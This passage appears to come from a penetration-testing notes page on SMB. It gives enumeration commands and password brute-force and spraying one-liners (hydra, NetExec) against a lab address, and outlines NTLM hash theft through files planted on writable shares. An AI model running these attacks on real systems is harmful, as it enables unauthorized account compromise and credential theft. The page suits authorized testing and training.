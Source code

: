 {% tab title="Enum (2)" %}
```bash
/opt/impacket/examples/samrdump.py 172.16.10.3
```
{% endtab %}

{% tab title="Version" %}
```bash
msf6 > useuse auxiliary/scanner/smb/smb_version
```
{% endtab %}

{% tab title="User Enum" %}
<pre class="language-bash"><code class="lang-bash"><strong>msf6 > useuse auxiliary/scanner/smb/smb_login
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Attacks

### Passwords

{% tabs %}
{% tab title="BFA" %}
```bash
hydra -L user.list -P password.list smb://172.16.10.3
```
{% endtab %}

{% tab title="Spray (Domain)" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success
```
{% endtab %}

{% tab title="Spray (Local)" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success --local-auth
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Hashes

All described methods (SCF, LNL, SC) require `WRITE` access to a share/directory.

* If `WRITE` access to a share is available, [NetExec](../../../tools/tools/active-directory/netexec-cme.md) modules can be used for automation.
* If `WRITE` access is only available within a `READABLE` share, the process must be done manually.

For stealing the hash, **the user must only browse the share, not interact with the file**. Finally, the Metasploit's `auxiliary/server/capture/smb` module can be used instead of Responder.
